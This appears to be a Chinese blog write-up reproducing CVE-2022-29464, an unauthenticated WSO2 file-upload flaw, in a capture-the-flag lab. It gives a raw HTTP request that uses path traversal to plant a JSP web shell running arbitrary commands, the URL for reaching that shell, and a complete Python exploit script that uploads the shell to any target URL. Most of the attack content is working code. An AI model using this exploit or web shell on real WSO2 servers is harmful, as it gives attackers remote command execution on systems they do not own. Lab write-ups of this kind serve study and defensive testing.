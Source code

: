 ```yaml
---
title: CVE-2022-29464
subtitle:
date: 2025-03-14T12:35:37+08:00
slug: 423bfcb
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a5a2d99458eb7e9f1404b65091252ab9.png)

 攻击者可以上传恶意 JSP 文件到 WSO2 服务器的 web 目录（如 `/repository/deployment/server/webapps`)，从而通过 HTTP 请求直接访问并执行该文件。
弱口令admin\admin发现登陆进去并没有什么用。
刷新登陆界面，修改host值上传wavesky.jsp文件到指定目录，根据poc抓包修改

```
POST /fileupload/toolsAny HTTP/1.1
Host: eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 901
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
 
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"
 
<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```



![](images/fa5b2999fa34c1916c5432544c0e7446.png)

上传成功，访问

``` url
https://eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443/shell.jsp
```



![](images/00130f6dbf26ea6ee01e00e458c0de29.png)

进行命令执行，找到flag

![](images/b82646576edee0d9526544c7b90b9a6c.png)

读取flag
![](images/4b5053891cd25634ff775f730d45f18b.png)

exp：

``` python
import requests
import urllib3
 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
url = input("请输入URL：")
file = "shell.jsp"
payload = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""
 
files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": payload}
response = requests.post(f'{url}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {url}/authenticationendpoint/{file}")
```
